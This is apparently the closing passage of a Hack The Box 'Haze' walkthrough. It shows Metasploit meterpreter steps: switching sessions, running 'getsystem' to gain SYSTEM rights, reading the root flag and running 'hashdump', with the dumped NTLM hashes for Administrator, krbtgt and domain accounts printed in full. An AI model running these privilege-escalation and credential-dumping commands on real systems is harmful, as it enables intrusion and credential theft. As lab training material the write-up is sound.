 ```bash
sessions
```

```bash
sessions -i 2
```

```bash
getsystem
```

![Screenshot 2025-03-31 at 10.10.56 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_10.10.56_PM.png)

```bash
type C:\Users\Administrator\Desktop\root.txt
```

![Screenshot 2025-03-31 at 10.11.46 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_10.11.46_PM.png)

CRTL + Z → y

```bash
hashdump
```

```bash
meterpreter > hashdump
**Administrator**:500:aad3b435b51404eeaad3b435b51404ee:**06dc954d32cb91ac2831d67e3e12027f**:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:937e28202a6cdfcc556d1b677bcbe82c:::
paul.taylor:1103:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
mark.adams:1104:aad3b435b51404eeaad3b435b51404ee:e90878e2fb0a21a11859ff60f1119fb4:::
edward.martin:1105:aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af:::
alexander.green:1106:aad3b435b51404eeaad3b435b51404ee:6b8caa0cd4f8cb8ddf2b5677a24cc510:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9dcbc33adec3bdc8b2334060002ce1b4:::
Haze-IT-Backup$:1111:aad3b435b51404eeaad3b435b51404ee:735c02c6b2dc54c3c8c6891f55279ebc:::
meterpreter > 
```
